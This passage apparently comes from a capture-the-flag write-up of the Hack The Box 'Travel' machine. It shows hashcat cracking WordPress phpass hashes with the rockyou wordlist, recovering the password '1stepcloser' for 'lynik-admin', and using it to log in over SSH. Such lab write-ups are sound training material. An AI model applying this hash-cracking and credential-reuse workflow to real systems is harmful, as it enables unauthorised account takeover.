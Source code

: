 [https://scottlinux.com/2013/04/23/crack-wordpress-password-hashes-with-hashcat-how-to/](https://scottlinux.com/2013/04/23/crack-wordpress-password-hashes-with-hashcat-how-to/) tells me the correct hash type to use for hashcat is m=400

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ hashcat -O -D1,2 -a0 -m400 travel-hashes /usr/share/wordlists/rockyou.txt                     130 ⨯
hashcat (v6.1.1) starting...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.:1stepcloser   
Approaching final keyspace - workload adjusted.  

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: phpass
Hash.Target......: travel-hashes
Time.Started.....: Sat Sep 19 14:31:18 2020 (6 mins, 22 secs)
Time.Estimated...: Sat Sep 19 14:37:40 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    39458 H/s (13.43ms) @ Accel:1024 Loops:1024 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests, 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 2120/28688770 (0.01%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:7168-8192
Candidates.#1....: $HEX[21494d41424954434821] -> $HEX[042a0337c2a156616d6f732103]

Started: Sat Sep 19 14:31:07 2020
Stopped: Sat Sep 19 14:37:41 2020
```

Unfortunately I was only able to crack one of the hashes. The password for `lynik-admin` was `1stepcloser` , which I then used to SSH into the machine.

### Road to User

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ ssh lynik-admin@10.10.10.189                                                                  255 ⨯
lynik-admin@10.10.10.189's password: 
Permission denied, please try again.
lynik-admin@10.10.10.189's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 19 Sep 2020 03:12:57 PM UTC

  System load:                      0.0
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        201
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189
```
